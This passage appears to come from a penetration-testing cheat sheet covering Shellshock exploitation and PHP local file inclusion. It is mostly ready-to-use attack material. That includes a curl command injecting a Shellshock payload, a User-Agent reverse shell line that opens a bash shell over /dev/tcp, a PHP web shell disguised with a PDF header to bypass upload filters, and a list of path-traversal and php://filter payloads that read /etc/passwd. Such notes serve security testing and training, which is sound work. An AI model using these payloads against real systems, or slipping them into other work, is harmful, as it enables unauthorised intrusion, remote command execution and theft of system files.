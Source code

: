     curl -x http://192.168.90.61:3128 -A "() { ignored; }; echo Content-Type: text/plain ; echo  ; echo ; /usr/bin/id" -L http://10.10.10.10/cgi-bin/status
Nmap script check:   

    nmap -sV -p 80 --script http-shellshock --script-args uri=/cgi-bin/user.sh 10.10.10.10   
To exploit change vulnerable field in HTTP request (likely UAS) to a reverse shell command:        
    
    User-Agent: () { :;}; /bin/bash -i >& /dev/tcp/10.10.10.10/4444 0>&1    

 
# File Inclusion    
[PayloadAllTheThings FI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)  

## Local File Inclusion 
[Local File Inclusion](http://resources.infosecinstitute.com/local-file-inclusion-code-execution/#gref)   
[Guide to LFI](http://www.securityidiots.com/Web-Pentest/LFI/guide-to-lfi.html)    
### File Upload Pages
Bypass extension filtering: rename file to an allowed extension (ie .php to .php.pdf file)        
Bypass header check:    

    %PDF-1.4
    <?php system($_GET["cmd"]); ?>

### LFI Testing    
Check for client side scripts     
Use a [LFI wordlist](https://github.com/Karmaz95/crimson/blob/master/words/exp/LFI) or [this](https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_windows.txt) to fuzz.     

    http://example.com/index.php?page=../../../etc/passwd  
    http://example.com/index.php?page=../../../etc/passwd%00                  #PHP below v. 5.3.4 bypass
    http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00        # double encoding    
    http://example.com/index.php?page=....//....//etc/passwd
    http://example.com/index.php?page=..///////..////..//////etc/passwd
    http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
	
    /etc/passwd, etc.
    can you include a remote file?
    ?test=php://filter/convert.base64-encode/resource=/filepath      -> base64 encode /decode  
	
    http://example.labs/page.php?file=php://filter/resource=/etc/passwd             #php filter wrapper 
	
	
Vulnerable PHP functions

    include
    require
    include_once 
    require_once 
	